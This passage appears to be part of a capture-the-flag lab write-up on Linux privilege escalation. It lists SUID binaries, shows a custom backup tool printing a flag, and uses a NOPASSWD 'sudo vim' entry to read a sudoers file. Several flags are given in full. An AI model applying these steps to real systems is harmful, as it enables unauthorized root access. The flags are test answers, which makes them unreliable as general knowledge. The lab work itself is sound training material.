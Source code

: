 **SUID Binary List:**
```
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/find
/usr/local/bin/backup_tool
```

```bash
user1@debian:~$ /usr/local/bin/backup_tool
```

**Binary Output with Flag:**
```
OC Backup Tool v1.0
Creating system backup...
FLAG{SU1D_Vuln3r@bl3_3}
Backup completed successfully!
```

#### FLAG 014: Sudo Configuration
**Flag:** FLAG{S**********3}

```bash
user1@debian:~$ sudo -l
```

**Sudo Privileges Output:**
```
Matching Defaults entries for user1 on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User user1 may run the following commands on debian:
    (ALL) NOPASSWD: /usr/bin/vim
```

```bash
user1@debian:~$ sudo vim /etc/sudoers.d/oc_flag
```

**Vim Display of Flag File:**
```
# OC Lab Sudoers Configuration
# FLAG{Sud0_M1sc0nf1g_3}
# This file should not be readable by regular users
```

#### FLAG 015: Cron Job Script
**Flag:** FLAG{L**********3}
